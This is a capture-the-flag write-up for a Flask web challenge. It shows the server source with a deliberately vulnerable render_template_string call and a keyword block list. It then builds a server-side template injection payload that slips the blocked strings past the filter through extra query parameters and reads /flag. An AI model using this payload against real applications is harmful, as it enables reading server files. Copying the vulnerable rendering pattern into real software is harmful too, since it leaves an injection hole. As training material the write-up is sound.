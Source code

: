 ```yaml
---
title: "OSU League 2020/2021 - almostnopship0 Writeup"
date: 2021-02-07
draft: false
description: ""
tags: ["ctf"]
---
```

## Writeup
For this web challenge, we are given a link to a website that bears a striking resemblance to a certain DEF CON challenge. ~~pew pew~~  

{{< figure src="/img/almost-1.png" >}}

We are told the location of the flag and are provided the source code for the server, along with a nice text box where we can enter our team name. 

{{< figure src="/img/almost-2.png" >}}

Cool! Four P's are better than three. Now Let's take a look at that source code:

```python
from flask import Flask, render_template, request, send_file, render_template_string

app = Flask(__name__)

# scary names!!
blacklist1 = '_[]\'\"\\%'
blacklist2 = ['mro', 'config', 'base', 'join', 'os', 'subprocess']

@app.route('/')
def root():
    name = request.args.get('name')

    if name: 
        name = name.lower()
        if any([c in blacklist1 for c in name]) or any([b in name for b in blacklist2]):
            name = 'stop it :('

    index = render_template('index.html', name=name)
    return render_template_string(index)

@app.route('/src', methods=['GET'])
def src():
    return send_file('server.py')

# todo run NOPs
```

Interesting. We can see that some sort of blacklist has been implemented that prevents us from using certain character.  Let's tests that out and see if it works:

{{< figure src="/img/almost-3.png" >}}

Yep, so our team name wasn't able to go through, what a bummer.  
At this point I started to do some research on what I could possibly do to read the flag off of the server. I knew that it had to be a server side injecton, so I looked into that.  Eventually I came across what is know as a Flask SSTI, a type of server side template injection that Flask can be vulnerable to. I gave the input a simple template of `{{request.args}}` and voila.

{{< figure src="/img/almost-4.png" >}}

Now it's time to start crafting a payload.  We know that we can inject templates in the team name box, but those will all be checked against the blacklist. Maybe there is a way to add additional parameters that could then be read using `request.args`, that way the blacklisted items aren't actually part of `name`, but instead some other variable that we created.  Let's try it out:

`http://ctf-league.osusec.org:31311/?name={{request.args.param1}}&param1=%%Scary_Name%%` 

{{< figure src="/img/almost-5.png" >}}

And there it is. We now have a way to bypass the filter.  Now we just need to figure out how we are going to get the flag. After doing some more research, we were able to find that we could use `request.application` to access python's internal built-in functions. We eventually settled on this for what we wanted to be excecuted on the server:

`request.application.__globals__.get(__builtins__).open(/flag)`

To transform this into a usable payload, however, we had to set it up in such a way so that we could get around the blacklist. We were able to eventually come up with a method to transform any command into a usable payload:

```
a.b = request.args.a|attr(request.args.b)
a(b) = reqiest.args.a(request.args.b)
```

With this we can start to seperate out our command into sections:

```
request.application + __globals__
get() with paramater __builtins__
open() with paramerter __flag__
```

And putting the whole payload together:

`http://ctf-league.osusec.org:31311/?name={{(request.application|attr(request.args.param1)).get(request.args.param2).open(request.args.param3).read()}}&param1=__globals__&param2=__builtins__&param3=/flag`  

We get the flag!

{{< figure src="/img/almost-flag.png" >}}

`osu{but_mY_bLAcKL1st_W4S_so_g00d:(}` 